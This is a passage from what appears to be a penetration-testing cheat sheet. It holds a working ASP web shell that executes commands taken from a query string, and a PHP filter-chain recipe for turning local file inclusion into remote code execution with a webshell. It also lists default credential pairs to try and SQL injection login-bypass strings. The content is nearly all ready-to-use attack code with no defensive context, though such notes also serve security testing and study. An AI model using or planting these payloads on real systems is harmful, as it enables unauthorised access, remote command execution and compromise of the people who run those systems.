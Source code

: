 
```asp
<%
' ASP web shell
If Request.QueryString("cmd") <> "" Then
    Set oExec = Server.CreateObject("WScript.Shell").Exec(Request.QueryString("cmd"))
    Response.Write("<pre>" & Server.HTMLEncode(oExec.StdOut.ReadAll()) & "</pre>")
End If
%>
```

### PHP Filter Chains (Advanced LFI to RCE)
```bash
# Generate PHP filter chain to write webshell
python3 php_filter_chain_generator.py --chain '<?php system($_GET[0]); ?>'

# Use generated filter chain in LFI
http://<target>/page.php?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|[...long chain...]|resource=/tmp/shell.php

# Access webshell
http://<target>/shell.php?0=whoami
```

## Authentication Bypass

### Default Credentials
```bash
# Common default credentials to try
admin:admin
admin:password  
admin:123456
root:root
root:password
administrator:administrator
user:user
test:test
guest:guest
demo:demo

# Application-specific defaults
tomcat:tomcat (Apache Tomcat)
admin:admin123 (Various applications)
sa: (MSSQL)
oracle:oracle (Oracle DB)
```

### SQL Authentication Bypass
```sql
-- Login form bypass
admin' --
admin' /*
' OR 1=1--
' OR '1'='1
admin' OR '1'='1'--
'OR 1=1#
' UNION SELECT 1,'admin','password'--

-- Password field bypass
anything' OR '1'='1
```
